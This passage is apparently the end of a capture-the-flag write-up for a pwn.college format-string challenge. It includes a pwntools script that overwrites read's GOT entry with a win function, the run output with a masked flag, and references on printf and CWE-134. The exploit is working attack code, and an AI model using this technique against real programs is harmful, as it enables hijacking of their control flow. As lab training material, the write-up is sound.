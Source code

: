 ```python
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'triggering the vulnerability:\n', payload)

io = start()

offset = 10
padlen = 0

f = FmtStr(send_fmt, offset=offset, padlen=padlen, numbwritten=0)
f.write(exe.got['read'], exe.sym.win)
f.execute_writes()

io.interactive()
```

**The result:**

```perl
[+] Starting local process '/host/babyfmt_level7.0_remotelibc': pid 451
[*] Switching to interactive mode
[*] Process '/host/babyfmt_level7.0_remotelibc' stopped with exit code 0 (pid 451)
Show me what you got :P
You win! Here is your flag:
pwn.college{kvX************************************EzW}
[*] Got EOF while reading in interactive
```


## References

Official glibc manual on formatted output, including dynamic width/precision.  
[https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html](https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html)

POSIX `printf(3)` man page covering `%n`, `%m$`, and `*`.  
[https://man7.org/linux/man-pages/man3/printf.3.html](https://man7.org/linux/man-pages/man3/printf.3.html)

Open Group specification for `fprintf`, detailing positional arguments.  
[https://pubs.opengroup.org/onlinepubs/9699919799/functions/fprintf.html](https://pubs.opengroup.org/onlinepubs/9699919799/functions/fprintf.html)

CERT C secure coding rule FIO30-C on excluding user input from format strings.  
[https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings](https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings)

MITRE CWE-134 entry for externally-controlled format string vulnerabilities.  
[https://cwe.mitre.org/data/definitions/134.html](https://cwe.mitre.org/data/definitions/134.html)
